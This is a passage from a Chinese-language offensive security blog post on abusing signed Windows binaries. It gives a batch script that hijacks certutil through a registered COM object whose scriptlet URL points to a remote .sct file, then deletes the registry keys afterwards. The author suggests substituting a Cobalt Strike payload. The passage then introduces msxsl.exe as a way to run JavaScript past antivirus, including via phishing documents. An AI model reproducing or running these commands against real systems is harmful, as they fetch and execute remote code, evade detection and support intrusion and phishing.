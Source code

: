 ```
@echo off reg add HKEY_CURRENT_USER\SOFTWARE\Classes\Bandit.1.00 /ve /t REG_SZ /d Bandit /f 1>nul 2>&1 reg add HKEY_CURRENT_USER\SOFTWARE\Classes\Bandit.1.00\CLSID /ve /t REG_SZ /d {00000001-0000-0000-0000-0000FEEDACDC} /f 1>nul 2>&1 reg add HKEY_CURRENT_USER\SOFTWARE\Classes\Bandit /ve /t REG_SZ /d Bandit /f 1>nul 2>&1 reg add HKEY_CURRENT_USER\SOFTWARE\Classes\Bandit\CLSID /ve /t REG_SZ /d {00000001-0000-0000-0000-0000FEEDACDC} /f 1>nul 2>&1 reg add HKEY_CURRENT_USER\SOFTWARE\Classes\CLSID\{00000001-0000-0000-0000-0000FEEDACDC} /ve /t REG_SZ /d Bandit /f 1>nul 2>&1 reg add HKEY_CURRENT_USER\SOFTWARE\Classes\CLSID\{00000001-0000-0000-0000-0000FEEDACDC}\InprocServer32 /ve /t REG_SZ /d C:\WINDOWS\system32\scrobj.dll /f 1>nul 2>&1 reg add HKEY_CURRENT_USER\SOFTWARE\Classes\CLSID\{00000001-0000-0000-0000-0000FEEDACDC}\InprocServer32 /v ThreadingModel  /t REG_SZ /d Apartment /f 1>nul 2>&1 reg add HKEY_CURRENT_USER\SOFTWARE\Classes\CLSID\{00000001-0000-0000-0000-0000FEEDACDC}\ProgID /ve /t REG_SZ /d Bandit.1.00 /f 1>nul 2>&1 reg add HKEY_CURRENT_USER\SOFTWARE\Classes\CLSID\{00000001-0000-0000-0000-0000FEEDACDC}\ScriptletURL /ve /t REG_SZ /d https://gist.githubusercontent.com/enigma0x3/64adf8ba99d4485c478b67e03ae6b04a/raw/a006a47e4075785016a62f7e5170ef36f5247cdb/test.sct /f 1>nul 2>&1 reg add HKEY_CURRENT_USER\SOFTWARE\Classes\CLSID\{00000001-0000-0000-0000-0000FEEDACDC}\VersionIndependentProgID /ve /t REG_SZ /d Bandit /f 1>nul 2>&1 reg add HKEY_CURRENT_USER\SOFTWARE\Classes\CLSID\{372FCE38-4324-11D0-8810-00A0C903B83C}\TreatAs /ve /t REG_SZ /d {00000001-0000-0000-0000-0000FEEDACDC} /f 1>nul 2>&1 certutil 1>nul 2>&1 reg delete HKEY_CURRENT_USER\SOFTWARE\Classes\Bandit.1.00 /f 1>nul 2>&1 reg delete HKEY_CURRENT_USER\SOFTWARE\Classes\Bandit /f 1>nul 2>&1 reg delete HKEY_CURRENT_USER\SOFTWARE\Classes\CLSID\{00000001-0000-0000-0000-0000FEEDACDC} /f 1>nul 2>&1 reg delete HKEY_CURRENT_USER\SOFTWARE\Classes\CLSID\{372FCE38-4324-11D0-8810-00A0C903B83C}\TreatAs /f 1>nul 2>&1 echo Done!
```

这里使用 cobalt strike 中的恶意 com script，一样我们放在 web 服务器中

这个位置更改成我们的远程连接：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAW6XHZS2SARQDt6icUbdglicNeSqpCAm6qQrZEUvXOh4LZS6VkjXCxWsD8Z0IibmXzMFjShvdsowdPw/640?wx_fmt=png)

但是我这里利用不了。理论上是可以的哈哈哈哈

利用 certUtil 简便快捷，但是使用后需要注意清除缓存

**5.msxsl.exe 利用**
------------------

这个是 winddows 发布的一个组件但是它并没有安装在 windows 操作系统中，那么为什么要利用它？其实以上都手法都是在目前比较难以利用的了，但是我们熟悉之后可以组合利用来达到我们的目。

msxsl.exe 具有 windows 的签名，它的大小也只有 24.3 KB (24,896 字节)，我们完全可以上传到目标中或者在钓鱼文档中释放加载来进行利用来绕过杀毒软件的检测查杀。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAW6XHZS2SARQDt6icUbdgliceHnPwb52V6jzgV2f3BDib8U2iamCLO4yB8RsoOws43OlQWmyVDibXFxcQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAW6XHZS2SARQDt6icUbdglichjrF4rWH2qpyoPXRTo06v8t309YQkznz6WibWTGRliak6wxiciaTT5yKibQ/640?wx_fmt=png)

老规矩我们去微软文档中看看这个东西的知识;

好吧我并没有在微软文档这种查找到这个东西知识;

```
https://www.microsoft.com/en-us/download/details.aspx?id=21714
```

我们可以在网络上公开的资料可以知道：

> msxsl.exe 是微软用于命令行下处理 XSL 的一个程序，所以通过他，我们可以执行 JavaScript 进而执行系统命令
